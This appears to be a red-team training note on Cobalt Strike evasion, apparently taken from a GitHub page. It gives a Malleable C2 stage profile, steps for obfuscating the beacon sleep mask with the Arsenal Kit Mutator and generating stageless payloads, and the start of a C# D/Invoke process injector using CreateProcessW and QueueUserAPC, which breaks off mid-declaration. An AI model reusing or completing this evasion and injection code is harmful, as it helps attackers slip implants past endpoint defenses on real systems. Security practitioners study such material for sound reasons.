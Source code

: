 ```
stage {
    set sleep_mask "true";
    set cleanup "true";
    set userwx "false";
}

process-inject {
    set startrwx "false";
    set userwx "false";
}
```

Instead of building the sleep mask kit and loading sleepmask.cna as in the previous lesson, load `sleepmask_mutator.cna` from `C:\Tools\cobaltstrike\arsenal-kit\kits\mutator\`.  This will add a new Sleep Mask Mutator menu item which will launch a Preferences window.  These options can be left as they are.

Generate a new set of payloads using _Payloads > Windows Stageless Generate All Payloads_.  If you launch the Script Console, you will see the aggressor script calling into WSL to run the default sleep mask through the LLVM obfuscation.

One aspect to note about the Mutator Kit is that it is not compatible with evasive sleep or syscalls.

## Xuh stuff

FROM XUH C# dinvoke injector code that you can use in g2js, or just on its own :
```
using DInvoke.Data;
using DInvoke.DynamicInvoke;
using System;
using System.Net;
using System.Runtime.InteropServices;

namespace TestAssembly
{
public class Program
{

[UnmanagedFunctionPointer(CallingConvention.StdCall, CharSet = CharSet.Unicode, SetLastError = true)]

public delegate bool CreateProcessWDelegate(
string applicationName,
string commandLine,
IntPtr processAttributes,
IntPtr threadAttributes,
bool inheritHandles,
CREATION_FLAGS creationFlags,
IntPtr environment,
string currentDirectory,
ref STARTUPINFO startupInfo,
out PROCESS_INFORMATION processInformation);

[UnmanagedFunctionPointer(CallingConvention.StdCall, CharSet = CharSet.Unicode, SetLastError = true)]

public delegate bool CloseHandleDelegate(IntPtr hObject);

[UnmanagedFunctionPointer(CallingConvention.StdCall, CharSet = CharSet.Unicode, SetLastError = true)]

public delegate uint QueueUserAPCDelegate(IntPtr pfnAPC, // Pointer to the APC function
IntPtr hThread, // Handle to the thread
```